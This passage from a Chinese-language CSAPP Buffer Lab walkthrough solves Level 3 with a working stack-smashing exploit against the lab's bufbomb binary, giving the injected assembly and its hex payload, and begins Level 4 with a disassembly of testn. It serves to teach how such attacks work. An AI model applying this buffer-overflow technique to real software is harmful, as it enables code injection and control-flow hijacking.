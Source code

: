   ```
  Your job for thislevel is to supply an exploit string that will cause getbuf to return yourcookie back to test, rather than the value 1. You can see in the code for testthat this will cause the program to go“Boom!.” Your exploit code should set your cookie asthe return value, restore any corrupted state, push the correct return locationon the stack, and execute a ret instruction to really return to test.
  ```

  getbuf返回到test，返回值为cookie，而且要恢复损坏的状态

  在getbuf断，查看%ebp和%ebp+4（返回地址）的值

  ```
  pwndbg> x $ebp
  0x55683530 <_reserved+1037616>:	0x55683560
  pwndbg> x $ebp+4
  0x55683534 <_reserved+1037620>:	0x08048dbe
  ```

  构造代码，修改返回值为cookie，恢复ebp原来的状态，跳转到原来的地址

  ```assembly
  push $0x08048dbe
  mov $0x67f4b7b0,%eax
  mov $0x55683560,%ebp
  ret
  ```

  ```
     0:	68 be 8d 04 08       	pushq  $0x8048dbe
     5:	b8 b0 b7 f4 67       	mov    $0x67f4b7b0,%eax
     a:	bd 60 35 68 55       	mov    $0x55683560,%ebp
     f:	c3                   	retq  
  ```

  ```
  68 be 8d 04 08 b8 b0 b7 f4 67 bd 60 35 68 55 c3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 08 35 68 55
  ```

  ![3](https://raw.githubusercontent.com/AiDaiP/images/master/CSAPP-Buffer%20Lab/3.png)

  

* #### Level4: Nitroglycerin

  运行bufbomb时加上参数-n，其余要求和level3一样

  加上-n函数变为testn和getbufn，栈随机化，会调用5次testn，五次都要满足条件

  ```assembly
  08048e26 <testn>:
   8048e26:	55                   	push   %ebp
   8048e27:	89 e5                	mov    %esp,%ebp
   8048e29:	53                   	push   %ebx
   8048e2a:	83 ec 24             	sub    $0x24,%esp
   8048e2d:	e8 5e ff ff ff       	call   8048d90 <uniqueval>
   8048e32:	89 45 f4             	mov    %eax,-0xc(%ebp)
   8048e35:	e8 d2 03 00 00       	call   804920c <getbufn>
   8048e3a:	89 c3                	mov    %eax,%ebx
   8048e3c:	e8 4f ff ff ff       	call   8048d90 <uniqueval>
   8048e41:	8b 55 f4             	mov    -0xc(%ebp),%edx
   8048e44:	39 d0                	cmp    %edx,%eax
   8048e46:	74 0e                	je     8048e56 <testn+0x30>
   8048e48:	c7 04 24 88 a3 04 08 	movl   $0x804a388,(%esp)
   8048e4f:	e8 6c fa ff ff       	call   80488c0 <puts@plt>
   8048e54:	eb 46                	jmp    8048e9c <testn+0x76>
   8048e56:	3b 1d 08 d1 04 08    	cmp    0x804d108,%ebx
   8048e5c:	75 26                	jne    8048e84 <testn+0x5e>
   8048e5e:	89 5c 24 08          	mov    %ebx,0x8(%esp)
   8048e62:	c7 44 24 04 b4 a3 04 	movl   $0x804a3b4,0x4(%esp)
  ```